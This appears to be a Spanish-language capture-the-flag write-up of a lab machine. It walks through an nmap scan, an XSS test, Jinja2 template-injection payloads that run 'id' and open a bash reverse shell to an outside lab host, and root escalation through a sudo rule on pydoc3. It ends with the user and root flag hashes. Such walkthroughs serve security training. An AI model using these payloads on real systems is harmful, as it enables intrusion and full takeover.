 nmap: 192.168.1.130

![image](https://github.com/user-attachments/assets/04153be9-dbfa-42ee-9f66-3fdf4d03ee92)

al entrar al puerto 80 no hay nada mas que un apache, así que ingresamos por el puerto 8089

![image](https://github.com/user-attachments/assets/a3aa1ef4-3c4b-431a-ab69-5d1d3cd2cd5e)


vemos que podemos colocar muchas cosas ahí, así que probé inyectando un XSS

![image](https://github.com/user-attachments/assets/bad02228-eb0e-4ffd-bb19-5f9b5282d3aa)

y funciona la inyección XSS 

ahora probaremos un ataque SSTI 
una explicación rápida y buena con ejemplos: https://book.hacktricks.wiki/en/pentesting-web/pocs-and-polygloths-cheatsheet/index.html?highlight=%7B%7B7*7%7D%7D#basic-tests-8

![image](https://github.com/user-attachments/assets/3e4deccc-01b6-4302-b423-94a88aa45544)

y funciona, porque nos devuelve el valor 

![image](https://github.com/user-attachments/assets/9550e161-fc82-441f-b8cd-08beb3b84dca)

de la misma pagina de explicacion encontre este comando

     {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

como se ve en el código podemos ver que que hay un 'id' o sea que al lanzarlo por el ejecutable que hay ahí nos debería mostrar usuarios y grupo. 

![image](https://github.com/user-attachments/assets/08efb840-176e-4bc5-a4a2-d857c32600f0)

al igual que whoami porque podemos ver que nos muestra el usuario caldo

![image](https://github.com/user-attachments/assets/b2d70004-c3cb-491a-991b-12f2b6479221)

ahora vamos a lanzar una reverse y colocar el puerto en escucha

lanzamos:

     {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/192.168.1.108/1234 0>&1\'').read() }}


![image](https://github.com/user-attachments/assets/4cc43c1b-4349-4145-9bea-4e694d069db5)

y estamos dentro y también de primero nos da la flag de usuario

![[user1.png]]

al hacer un sudo -l  vemos que a nivel de sudoers podemos ejecutar el binario pydoc3 para generar documentación a partir de módulos de Python.
y en un blog chino https://cloud.tencent.com.cn/developer/information/%E5%A6%82%E4%BD%95%E6%9F%A5%E7%9C%8Blinux%E4%B8%8A%E7%9A%84ftp que se tradujo a español encontré este comando

     sudo pydoc3 -b 8888

que si lo ejecutamos nos mandara aquí

![[the hackers labs/avanzado/caldo de avecren/ejecucion1.png]]

colocamos

     !/bin/sh


nos saldremos y haremos un bash -p

![[the hackers labs/avanzado/caldo de avecren/root.png]]

y seremos root! 





f3e431cd1129e9879e482fcb2cc151e8 user
44df858281024b69291f503f8921136c root
